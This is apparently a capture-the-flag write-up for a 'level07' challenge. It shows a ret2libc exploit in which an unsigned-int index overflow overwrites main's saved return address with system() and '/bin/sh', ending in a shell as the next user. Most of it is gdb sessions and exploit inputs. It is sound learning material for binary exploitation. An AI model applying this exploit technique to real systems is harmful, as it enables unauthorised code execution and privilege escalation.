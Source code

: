# level07

## Step 1: Understand the program
1. The program allows to store numbers in an array of unsigned int.
2. The array have no end
3. We can store numbers at any index expect if:
    - index is divisible by `3`
    - High byte of the number is `0xb7`
        ```c
        if ( index == 3 * (index / 3) || HIBYTE(unum) == 183 ) // ((unum) >> 8) & 0xFF) == 0xB7
        ```

## Goal
Since we can store any value at any position, the goal is to overwrite the `saved eip` of main function with a [__Ret2libc__ __attack__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

## Step 2: find where is saved eip
```bash
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd6f0:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd6e8, args:
 Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
 Saved registers:
  ebp at 0xffffd6e8, eip at 0xffffd6ec
(gdb)
```

saved `eip` is at `0xffffd6ec`


## Step 3: Find the offset between the array and the saved eip

Store the random number `19951999` at `array[1]`

Find the value through the stack

```bash
(gdb) b *store_number+160
(gdb) r
(gdb) x/20d $esp
[...]
0xffffd4d0:	134515421	-10972	0	-136137024
0xffffd4e0:	-10520	-134280624	19951999	1
0xffffd4f0:	0	-8228	-10520	134514927
[...]
```
```bash
(gdb) x/d 0xffffd528
0xffffd528:	19951999
```
__The array is at `0xffffd524`__. We subtract 4 because it is on array of unsigned int (4 bytes long).

```bash
(gdb) p (0xffffd6ec - 0xffffd524)
$1 = 456
(gdb) p (0xffffd6ec - 0xffffd524) / 4
$2 = 114
(gdb)
```

__Offset == 114__  (114 step of 4 bytes)


## Step 4: Find the address of system functions
```bash
(gdb) p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

__0xf7e6aed0 = 4159090384__

```bash
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```
__0xf7f897ec = 4160264172__


https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

## Exploit

Given that the index can't be divisible by 3. we can't require index 114. To store value at this position we overflap `unsigned int max`.


- $UINTMAX = 2^{32}$  

- $\frac{2^{32}}{4} + 114 = 1073741938$




At last, quit to pass by through the return of `main`.

```console
$ /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```
